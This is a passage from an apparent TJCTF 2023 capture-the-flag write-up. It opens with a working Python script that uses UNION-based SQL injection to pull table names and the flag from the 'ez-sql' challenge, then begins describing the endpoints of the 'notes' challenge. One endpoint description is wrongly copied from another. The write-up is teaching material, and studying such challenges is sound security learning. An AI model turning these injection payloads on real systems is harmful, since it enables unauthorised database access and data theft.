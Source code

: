 ```python
import requests
import urllib3
urllib3.disable_warnings()

# (1)
payload = "nothinghere' UNION SELECT 1,tbl_name from sqlite_master where type='table' and tbl_name like 'flag_%'--"
response = requests.get(f"https://ez-sql-bc4100ee1e8b238e.tjc.tf/search?name[]={payload}",  verify=False)
flag_tbl = response.text.replace('[{"id":1,"joke":"','').replace('"}]','')
print(f"Table name: {flag_tbl}")

# (2)
payload = f"nothinghere' UNION SELECT 1,flag from {flag_tbl}--"
response = requests.get(f"https://ez-sql-bc4100ee1e8b238e.tjc.tf/search?name[]={payload}",  verify=False)
flags = response.text.replace('[{"id":1,"joke":"','').replace('"}]','')
print(f"Flag = {flags}")
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/8_tjctf2023/tjctf_3.png)

#### Web : notes

> obligatory notes site?

**Source Code (server.zip)** : [server.zip](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/TJCTF/2023/web/notes)

This challenge took me a while to solve during the CTF as I could only work on it during my free time. It was time-consuming to thoroughly comprehend the code and figure out how to exploit it in order to obtain the flag. 

Based on the provided code, the following are the important endpoints involved in the application:

> `/login (POST)`: Handles the login functionality. Verifies the username and password against the database and associates the session with the user if the credentials are correct.
{: .prompt-info }
> `/register (POST)`: Handles the login functionality. Verifies the username and password against the database and associates the session with the user if the credentials are correct.
{: .prompt-info }
> `/user/delete (POST)`: Handles user deletion functionality. Deletes the user from the database, along with their associated notes, if the provided password matches the user's password.
{: .prompt-info }
> `/note/create (POST)`: Handles the creation of a new note. Inserts a new note into the database associated with the currently logged-in user.
{: .prompt-info }
